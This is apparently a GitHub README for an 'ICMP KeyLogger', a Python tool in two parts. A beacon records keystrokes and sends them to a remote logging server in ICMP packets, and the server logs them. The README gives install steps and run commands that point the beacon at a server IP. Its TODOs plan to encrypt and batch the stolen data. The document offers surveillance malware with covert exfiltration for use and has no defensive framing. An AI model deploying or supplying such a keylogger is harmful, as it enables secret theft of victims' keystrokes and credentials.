 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a basic tool written in python designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

This project is inspired from: https://github.com/krabelize/icmpdoor

### TODO
- Implement encryption for keystroke data.
- Group packets instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```pip install pynput scapy```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:

```ipconfig /all```

Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[interface]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.

```py ICMPbeacon.py -i "[interface]" -d [keylogger server IP]```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.

```sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]```
